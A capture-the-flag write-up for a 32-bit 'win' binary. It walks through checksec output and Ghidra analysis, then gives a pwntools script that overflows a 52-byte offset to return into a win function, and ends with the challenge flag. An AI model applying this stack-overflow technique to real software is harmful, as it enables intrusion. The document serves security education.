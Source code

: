 
This write up is for the win pwn challenge.

The first thing I am going to do is to run both file and checksec to see the basic information and protections on the binary.
```
*] '/home/kali/Downloads/CWE2025/real/win'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No

```
After putting into ghidra I  can see that the program reads my input into a buffer without checking the size. This immediately led to a buffer overflow to a win function.

I used cyclic in pwndbg to find my offset of 52
I then created my python script to solve 

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './win' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1300  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    win = 0x080491a6
    payload = b''
    payload += b'A' * 52 
    payload += p32(win)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()


```

CWE{no_stack_smashing_here_Nl8VyJ4C}

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTgxNzk5OTc1OSwtMTEyMjAxNDAwMV19
-->